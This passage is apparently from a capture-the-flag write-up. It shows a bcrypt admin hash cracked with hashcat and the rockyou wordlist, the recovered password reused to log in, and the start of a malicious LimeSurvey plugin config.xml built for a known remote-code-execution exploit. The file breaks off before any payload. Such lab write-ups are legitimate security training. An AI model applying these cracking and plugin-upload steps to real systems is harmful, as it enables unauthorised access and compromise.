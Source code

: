 It handles the admin user's password, but at a glance we can immediately recognize it as `bcrypt`.

```zsh
❯ cat hash | xargs -n 1 hashid

Analyzing '$2a$12$dUZ/O7KJT3.zE4TOK8p4RuxH3t.Bz45DSr7A94VLvY9SWx1GCSZnG'
[+] Blowfish(OpenBSD) 
[+] Woltlab Burning Board 4.x 
[+] bcrypt 
```
```zsh
❯ hashcat -m 3200 hash /usr/share/wordlists/rockyou.txt --show
$2a$12$dUZ/O7KJT3.zE4TOK8p4RuxH3t.Bz45DSr7A94VLvY9SWx1GCSZnG:147258369
```

I tried ssh with user `ron` but it failed. So now I'll go back to the previous login page where we found `ralph:147258369`.

![12.png](Heal/images/12.png)

### <span style="color: #3498eb;">Foot hold</span>

I found the exploit documentation for [LimeSurvey Community Edition Version 6.6.4][https://community.limesurvey.org/]
+ https://ine.com/blog/cve-2021-44967-limesurvey-rce
+ https://github.com/Y1LD1R1M-1337/Limesurvey-RCE

First create a `config.xml` file and change its version to 6.6.4

```xml
<?xml version="1.0" encoding="UTF-8"?>
<config>
    <metadata>
        <name>rev</name>
        <type>plugin</type>
        <creationDate>2020-03-20</creationDate>
        <lastUpdate>2020-03-31</lastUpdate>
        <author>Y1LD1R1M</author>
        <authorUrl>https://github.com/Y1LD1R1M-1337</authorUrl>
        <supportUrl>https://github.com/Y1LD1R1M-1337</supportUrl>
        <version>6.6.4</version>
        <license>GNU General Public License version 2 or later</license>
        <description>
```